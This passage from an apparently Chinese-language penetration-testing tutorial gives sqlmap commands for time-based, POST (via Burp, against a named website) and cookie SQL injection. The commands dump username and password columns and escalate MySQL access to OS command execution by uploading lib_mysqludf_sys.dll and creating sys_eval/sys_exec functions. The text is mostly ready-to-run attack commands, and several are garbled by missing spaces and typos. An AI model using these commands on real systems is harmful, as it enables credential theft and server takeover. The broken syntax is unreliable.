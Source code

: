 ### 15.13 延时注入
> sqlmap.py -u URL --technique -T--current-user

### 15.14 sqlmap 结合burpsuite进行post注入
结合burpsuite来使用sqlmap：
1. 浏览器打开目标地址http://www.antian365.com
2. 配置burp代理(127.0.0.1:8080)以拦截请求
3. 点击登录表单的submit按钮
4. Burp会拦截到了我们的登录POST请求
5. 把这个post请求复制为txt, 我这命名为post.txt 然后把它放至sqlmap目录下
6. 运行sqlmap并使用如下命令：
    `./sqlmap.py -r post.txt -p tfUPass`

### 15.15 sqlmap cookies注入
> sqlmap.py -u "http://127.0.0.1/base.PHP"–cookies "id=1"  –dbs –level 2

默认情况下SQLMAP只支持GET/POST参数的注入测试，但是当使用–level 参数且数值>=2的时候也会检查cookie里面的参数，当>=3的时候将检查User-agent和Referer。可以通过burpsuite等工具获取当前的cookie值，然后进行注入：
```
sqlmap.py -u 注入点URL --cookie"id=xx" --level 3

sqlmap.py -u url --cookie "id=xx"--level 3 --tables(猜表名)

sqlmap.py -u url --cookie "id=xx"--level 3 -T 表名 --coiumns

sqlmap.py -u url --cookie "id=xx"--level 3 -T 表名 -C username，password --dump
```

### 15.16 mysql提权
1. 连接mysql数据打开一个交互shell:
```
sqlmap.py -dmysql://root:root@127.0.0.1:3306/test --sql-shell

select @@version;

select @@plugin_dir;

d:\\wamp2.5\\bin\\mysql\\mysql5.6.17\\lib\\plugin\\
```

2. 利用sqlmap上传lib_mysqludf_sys到MySQL插件目录:
```
sqlmap.py -dmysql://root:root@127.0.0.1:3306/test --file-write=d:/tmp/lib_mysqludf_sys.dll--file-dest=d:\\wamp2.5\\bin\\mysql\\mysql5.6.17\\lib\\plugin\\lib_mysqludf_sys.dll

CREATE FUNCTION sys_exec RETURNS STRINGSONAME 'lib_mysqludf_sys.dll'

CREATE FUNCTION sys_eval RETURNS STRINGSONAME 'lib_mysqludf_sys.dll'

select sys_eval('ver'); 
```
